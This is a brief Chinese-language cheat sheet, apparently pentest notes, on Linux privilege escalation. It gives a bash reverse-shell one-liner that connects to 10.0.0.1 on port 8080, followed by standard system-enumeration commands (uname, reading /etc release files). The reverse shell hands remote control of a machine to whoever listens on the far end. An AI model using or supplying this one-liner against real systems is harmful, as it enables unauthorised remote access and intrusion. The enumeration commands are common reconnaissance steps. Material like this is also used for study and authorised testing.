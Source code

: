 ## GUN Linux 提权笔记

##### Shell反弹
```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```


查看系统版本
`uname -a`
`cat /etc/*-release`
`cat /etc/issue`
